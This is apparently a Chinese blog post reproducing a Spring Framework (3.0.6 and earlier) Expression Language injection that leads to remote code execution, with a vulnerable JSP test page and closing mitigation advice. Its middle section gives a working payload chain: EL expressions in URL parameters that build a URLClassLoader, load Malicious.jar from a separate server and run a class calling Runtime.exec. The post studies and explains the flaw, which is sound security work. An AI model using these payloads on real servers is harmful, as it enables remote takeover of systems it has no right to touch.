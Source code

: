 ```yaml
---
layout: post
title: "Spring框架远程代码执行"
date: 2014-07-26 00:20:04 +0800
comments: true
categories: "技术"
tags: [Spring,Expression Language] 
---
```


### 0x01 概述

2012年12月国外研究者DanAmodio发表《Remote Code with Expression Language Injection》一文，指出Spring框架存在潜在的代码注入风险。在2013年1月，国内安全研究人员在微博上分享了该篇文章的中文翻译内容。

文章中指出Spring框架3.0.6以下版本，在一定的条件下，可以被攻击者利用，执行任意的java代码，从而威胁系统的安全性。而且这些存在潜在威胁的版本，在全球范围中已经下载超过131.4万，由此可见此问题影响极为广泛。

我在这一周中针对文章中所提到的方法，进行了重现。本篇文章将向各位描述这个问题被触发所需要的条件，实现利用的细节，以及相关的一些防护方法。

<!-- more -->

### 0x02 环境搭建

先说下简单的测试代码吧，按照文章中所说的，在搭建好的Spring中添加一个jsp文件，其中包含如下代码：

```java
<%@page contentType="text/html;charset=GBK"%> 
<%@ taglib uri="/spring" prefix="spring"  %>
<html>   
<head><title>利用Spring输出HelloWorld</title></head>   
<%  
String str = (String)request.getAttribute("helloWorld");  
%> 
<spring:message text="${param['message']}" code="${param['foo']}"></spring:message>
<body>
<font size=’22’><%=str%></font> 
</body>   
</html>	
```

红色代码部分为测试的jsp代码。Spring的message标签的作用是，根据code取得消息资源，如果指定的code没有找到任何对应的消息资源，则采用text定义的内容。这里有一个比较奇怪的地方，文章中说在code属性处添加$param[‘message’]代码，通过访问http://target/file? message=${applicationScope}会在页面中打印出服务器环境的相关配置信息。但是，这个地方无论我用什么办法，都无法让它里面的内容显示出来。所以我不得不将测试的内容放到了text属性中（这两个属性都可以执行EL表达式）。

这个问题虽然有些摸不到头脑，但还是可以接受的，毕竟还是有地方让我做测试。在测试后面的内容才是我噩梦真正的开始！

在一开始测试时，我并没有按照作者所提供的Glassfish3.1.2.2+Spring3.0.6的环境测试，而是搭建Tomcat6.0+Spring3.0.2的环境。当我在这个环境中，想要通过java.lang.String类调用java方法时出现了问题，提示EL表达式错误。访问http://target/file? message= ${param.foo.replaceAll("P","Q")}&foo=PPPPP，错误显示如下图：

![1](/assets/images/2014-07/2014-07-25-01.png)

纠结了一天多的时间，各种搜索，只能搜索到各大网站对这篇文章的转载，没有一个具体分析的文章。在我就要崩溃的时候，发现了这样一句话“After some research, I learned that the EL 2.2 added support for method invocation.”。马上反应过来，这个特性应该是EL2.2新添加的，而Tomcat6.x是支持EL2.1的，然后果断的换成了支持EL2.2的Tomcat7.0。依旧访问那个url，结果如下图：

![2](/assets/images/2014-07/2014-07-25-02.png)

什么都没有！到底执行了没:(。又是崩溃了大半天，最后不得不乖乖的按照文章中环境进行搭建。这次终于成功了，不容易啊！

![3](/assets/images/2014-07/2014-07-25-03.png)

### 0x03 代码执行技术细节

通过上一章最后测试的结果，我们不难看出，在一定的环境下，我们是可以通过EL表达式来调用java代码的。但是由于限制条件，我们能够做的事情也是很有限的。不过，DanAmodio和他的朋友在不断的努力下，终于找到了一个，可以使它执行任意代码的方法。

他们想到通过java的反射机制，来动态的加载一些类和方法。但是，很多的强大的类（如：Runtime）的newinstance方法是不允许被调用的，没有办法对它们进行初始化，也就是说，不能直接的调用这些强大的类和方法。

后来，他们发现了URLClassLoader这个类提供了newinstance这个方法。这个方法是可以动态加载远程代码的类，这样新的利用方法就出炉了！
首先在我们另一台服务器上放置编译如下代码的jar文件：

```java
public class Malicious {
    public Malicious() {
	   try {
                  java.lang.Runtime.getRuntime().exec("calc.exe"); //Win
           } catch (Exception e) {
           }
    }
}
```

然后我们通过EL表达式创建一个数组（URLClassLoader的构造函数需要URL数组作为参数），存放在session中，url为http://target/file? message=${pageContext.request.getSession().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}。

下一步我们通过URI提供的create方法，可以创建一个URL实例，我们把这个实例保存在刚刚创建的数组中，url为http://target/file?message= ${pageContext.request.getSession().getAttribute("arr").add(pageContext.getServletContext().getResource("/").toURI().create("http://serverip/Malicious.jar").toURL())}。

Malicious.jar文件就是我们之前保存在另一台服务器中的jar文件。EL表达式中的PageContext类中getClassLoader方法得到的对象的父类便是URLClassLoader，所以，我们便可以调用newInstance方法了，url为http://target/file?message= ${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}。

来看下效果图吧，嘿嘿

![4](/assets/images/2014-07/2014-07-25-03.png)

### 0x04 总结

1. 这个问题利用的环境，在目前看来是只有Glassfish3.1.2.2+Spring3.0.6及其之前版本环境可以实现。从理论上来看应该只要服务端支持EL2.2就可以实现，但是不知道什么原因Tomcat7.0虽然支持EL2.2，但是却没有得到我们预想中的效果。

2. 在测试过程中，遇到了一个比较低级的错误，就是编译jar 的java版本与服务端的java版本不符，导致代码无法成功执行。

3. 对于这种问题的防护，我们给出的建议是将Spring升级到3.1以上版本，因为这些新版本默认是将jsp的EL表达式支持关闭的。如果不能升级到3.0.6以上版本，请在web.xml中设置springJspExpressionSupport的参数为false，如下示例：

```xml
<context-param>
<description>Spring Expression Language Support</description>
<param-name>springJspExpressionSupport</param-name>
<param-value>false</param-value>
</context-param>
```

4. 另外即使你使用了Spring3.1以上版本，也要留心这个问题，因为它只是默认关闭了EL表达式的支持，而并不是修补了这个问题，不小心的配置很有可能会使这个问题死灰复燃的。

5. 本篇文章中虽然没有在Tomcat环境中测试成功，但并不代码这个问题不会在这种环境中出现，我们会继续跟踪这个问题。

